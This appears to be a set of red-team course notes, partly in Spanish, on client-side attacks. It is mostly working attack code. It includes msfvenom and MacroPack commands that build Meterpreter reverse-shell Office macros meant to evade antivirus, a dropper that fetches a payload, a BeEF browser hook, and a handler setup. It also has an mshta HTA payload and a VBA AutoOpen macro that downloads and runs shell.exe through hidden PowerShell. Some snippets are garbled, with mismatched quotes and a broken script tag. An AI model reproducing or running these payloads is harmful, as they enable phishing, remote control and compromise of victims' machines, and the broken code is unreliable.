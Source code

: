 ### Generate a custom Meterpreter reverse shell macro

Learn how to use MacroPack to generate MS Office macros.

Develop a custom macro-based attack and the accompanying payloads.

Evade any A/V or IDS in place.

```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER-SYSTEM-IP> -f vba | macro_pack.exe -o -G "resume.doc"

# Start multi handler

# start server python -m http.server 80

# Download file resume.doc
```

### Using a dropper to orchestrate your macro attacks

```bash
# python -m http.server 80

echo "http://10.100.11.15/update.exe" "update.exe" | macro_pack.exe -t DROPPER -o -G "Accounts2022.xls"

# Download file

```

## Establishing A Shell Through The Victim's Browser

```bash
# Beef
# en el html creamos un script que llame a un hoook de nuestro servidor beef
<head>
 <script src='http://kali/hook.js'></script>
</head>

```

### Automate the attack and put everything in a single attack vector

```bash
# cat myfile
$path = "C:\Program Files (x86)\Firefox Developer Edition\"
$path1 = "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\"
ShellExecute($path & "firefox.exe", "http://<KALI-IP>", "", "", @SW_HIDE)
WinWait("[TITLE:Firefox Developer Edition]")
WinSetState ("[LAST]", "", @SW_HIDE)

# autoitscript lanzara un browser

# https://gist.github.com/anonymous/09f10cdb5d9b0bae4755850273083fd2

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=4444 -f exe > update.exe
# cp update.exe /var/www/html

# poner la opcion de notificaciones falsas para que el usuario descargue el script update.exe
```

```bash

#ActiveX  para ejecucion de macro
# pretexting
Office phish templates -> martinsohn


# Delivery & Execution
### Windows: File Smuggling with HTML and JavaScript
https://assets.ine.com/labs/ad-manuals/walkthrough-2396.pdf
### Client-side
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.4 LPORT=4444 -f exe > backdoor.exe

msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.4
set LPORT 4444
exploit

-> https://www.geeksforgeeks.org/send-mail-attachment-gmail-account-using-python/
```

```bash

mshta.exe http://kali/poc.hta
##poc.hta
<head>
1script>
var payload = 'calc.exe'
new ActiveXObject('Wscript.Shell').Run(payload)
</script>
<head>
```

```bash
# Macro de Execl(WORD)

Sub AutoOpen()
  droppper
End Sub

Sub Document_Open()
  dropper
End Sub

Sub dropper()
  Dim url As String
  Dim psScript As String
  url = 'http://kali/shell.exe'
  #Download and execute file
  psScript = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Users\Admin\file.exe"";" & vbCrLf & _
    Start-Process -FilePath ""C:\Users\Admin\file.exe"""
  #Execute script using shell and hides the window for stealth

Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """, vbHide

End Sub
```
